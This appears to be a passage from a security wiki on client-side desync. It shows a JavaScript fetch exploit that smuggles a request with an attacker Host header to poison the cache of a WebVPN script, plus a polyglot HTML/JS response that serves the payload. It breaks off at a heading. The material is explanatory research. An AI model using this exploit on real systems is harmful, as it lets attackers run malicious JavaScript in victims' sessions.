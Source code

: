 ### **Host header redirect + client-side cache poisoning**

* **JS exploit**

```javascript
fetch('https://redacted/', {
    method: 'POST',
    body: "GET /+webvpn+/ HTTP/1.1\r\nHost: x.psres.net\r\nX: Y",
    credentials: 'include'}
).catch(() => { location='https://redacted/+CSCOE+/win.js' })
```

* A request to `/+webvpn+/` with a **different domain in the Host header** is answered with a **redirect** to `/+webvpn+/index.html` to that **domain** inside the Host header.
* The location in the **second** request is set to `/+CSCOE+/win.js` in order to **poison** the **cache** of that `.js` file.
  * This request will be answered with the redirect of `/+webvpn+/` to the attackers domain with path`/+webvpn+/index.html`
* The **cache** of **`win.js`** will be **poisoned** with a **redirect** to the **attackers** page, but also the **victim** will **follow** the redirect as it was assigned in the `location` variable and will end in the attackers web page.
* The attacker will then **redirect** the **victim** to `https://redacted/+CSCOE+/logon.html`. This page will import `/+CSCOE+/win.js`. Whose **cache is a redirect** to the **attackers** server, therefore, the attacker can **respond with a malicious JS**.

The **victim** will **access** the page of the **attacker** **twice**, the first one it **expects a HTML** that redirect the victim back to `https://redacted/+CSCOE+/logon.html` and the second one it **expects javascript code** (the payload). A polyglot can be used to serve both responses in just one:

```
HTTP/1.1 200 OK
Content-Type: text/html

alert('oh dear')/*<script>location = 'https://redacted/+CSCOE+/logon.html'</script>*/
```

### HEAD payload with chunked TE

When looking for CSD you can also **test semi-malformed** URLs like `/..%2f` or `/%2f`.

* **Coloured Exploit**
